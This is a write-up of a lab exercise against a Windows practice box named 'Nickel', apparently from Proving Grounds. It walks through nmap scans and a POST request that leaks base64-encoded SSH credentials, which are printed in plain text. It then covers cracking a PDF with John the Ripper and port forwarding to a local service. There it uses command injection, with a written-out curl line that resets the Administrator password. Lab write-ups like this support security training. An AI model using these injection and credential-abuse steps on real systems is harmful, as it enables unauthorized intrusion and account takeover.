Nmap scan.
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.111.99
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 12:20 IST
Warning: 192.168.111.99 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.111.99
Host is up (1.7s latency).
Not shown: 51285 closed tcp ports (reset), 14236 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 95.06 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,22,135,139,445,3389,5040,8089,33333,49664,49665,49666,49668,49669 192.168.111.99 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 12:29 IST
Nmap scan report for 192.168.111.99
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.60 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-23T07:03:48+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2025-12-06T11:11:21
|_Not valid after:  2026-06-07T11:11:21
5040/tcp  open  unknown
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-23T07:02:34
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.32 seconds
```

Visiting web server on port 8089.



Clicking on each of this options take time to load and for some reasons it is not even coming up, so i decided to view source code and discovered that another IP was been called on the endpoints, instead of our present target IP.



 Decided to change it to our own IP in which port 33333/HTTP is currently opened also, The two endpoints hence `/list-running-procs` has the message “**Not Implemented**”.



Seems like the above message means we have to use the `POST` request instead of `GET`, you can use `burpsuite` for this or `curl` using the `-X` parameter. However i will be using `burpsuite`

Even after changing the request method, we got nothing.



So we tried another endpoint.



Captured the request in burp suite and changed the request method. I found hardcoded SSH credentials in response after changing request to `POST`.



From cyberchef we got know that crdes were base64 encoded.





So we found following creds: `ariah : NowiseSloopTheory139`

Then we can now login via SSH with the credentials we have at hand `ariah:NowiseSloopTheory139`



Captured local flag.



### C:\ Enumeration

This is very crucial step to always check for files and directories in C:\ drive. Let’s check for ftp.



Navigating to `C:\ftp` i found a PDF file called `Infrastructure.pdf`. Then decided to transfer the file using the `scp` utility.



```sh
scp ariah@192.168.240.99:C:/ftp/Infrastructure.pdf .
```



However this file is password encrypted so we have to decrypt it first.



we can crack this using `JtR`



Opening the PDF and checking the content we have several endpoints.



Checking the endpoints locally, the `http://nickel/` endpoint looks interesting the most, so i checked it first and the body contains a message saying “`dev-api`”


We got the above error saying port 80 is not exposed externally.

Checked `netstat -ano` and found that port 80 is opened on localhost.



So we tried bot the endpoints found in pdf.



Here, we can do local port forwarding to access the above endpoints in our browser.







 Adding the “`dev-api`” as a parameter to the legit URL i have this error like a normal CMD error, Meaning it executes whatever commands we add there. (we found dev-api after hitting 1st endpoint)





Decided to do this with the command `whoami`, and we have a response in return as the user administrator.



```cmd
curl http://127.0.0.1/?net%20user%20administrator%20password
```



We can then change the administrator password and login as the administrator user with `psexec.py`

`curl http://127.0.0.1/?net%20user%20administrator%20password`

Decoded:

`net user administrator password`

👉 What this does:

Changes password of `Administrator` user to `password`



This can be achieved by methods:

https://sec-fortress.github.io/posts/pg/posts/Nickel.html

https://medium.com/@huntersherlock11/proving-ground-walkthrough-nickel-ff4c8dff99a0


